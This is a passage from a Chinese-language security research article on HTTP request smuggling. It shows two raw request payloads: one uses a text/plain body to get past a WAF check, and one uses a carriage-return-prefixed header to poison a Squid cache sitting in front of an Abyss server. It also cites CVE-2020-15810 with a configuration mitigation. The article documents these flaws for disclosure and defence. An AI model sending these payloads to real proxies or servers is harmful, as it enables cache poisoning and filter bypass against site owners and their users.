 ### <a class="reference-link" name="%E5%8F%98%E4%BD%934%EF%BC%9A%E2%80%9CA%20plain%20solution%E2%80%9D"></a>变体4：“A plain solution”

绕过 paranoia_level≤2 检查的另一种方法是简单地使用`Content-Type: text/plain`：

```
POST /hello.php HTTP/1.1
Host: foo.com
User-Agent: foo
Accept: */*
Connection: Keep-Alive
Content-Type: text/plain
Content-Length: 36
Content-Length Kuku: 3

barGET /a.html HTTP/1.1
Something: GET /b.html HTTP/1.1
Host: foo.com
User-Agent: foo
Accept: */*

```

### <a class="reference-link" name="%E5%8F%98%E4%BD%935%EF%BC%9A%20%E2%80%9CCR%20header%E2%80%9D"></a>变体5： “CR header”

从技术上讲，这可能是第一次涉及这个变种的成功攻击报告，它在Burp的HTTP请求走私模块中被列为 “0dwrap”。到目前为止，我还不知道有任何已发布的使用该变种的成功攻击。

**Spuid**：忽略这个请求头<br>**Abyss**：认定这是一个请求头

假设Squid在Abyss服务器前充当反向代理的角色，以下是例子：

```
POST /hello.php HTTP/1.1
Host: foo.com
Connection: Keep-Alive
[CR]Content-Length: 33

GET /a.html HTTP/1.1
Something: GET /b.html HTTP/1.1
Host: foo.com

```

Squid忽略了该头，是的正文长度为0，则第二个请求为`/a.html`。Abyss在30秒后响应，内容为`hello.php`，然后Squid发送`/a.html`的请求，Abyss丢弃这个请求的前33个字节，发送内容的`/b.html`。通过这种方式，Squid为URL `/a.html` 缓存了`/b.html`的内容。

### <a class="reference-link" name="%E6%94%BB%E5%87%BB%E7%9A%84%E6%88%90%E6%9E%9C"></a>攻击的成果

**变体1**：Aprelium和Squid受到影响。Aprelium在Abyss X1 v2.14中进行了修复。Spuid将CVE-2020-15810提请为issue，并给出配置上的缓解方案：

```
relaxed_header_parser=off
```
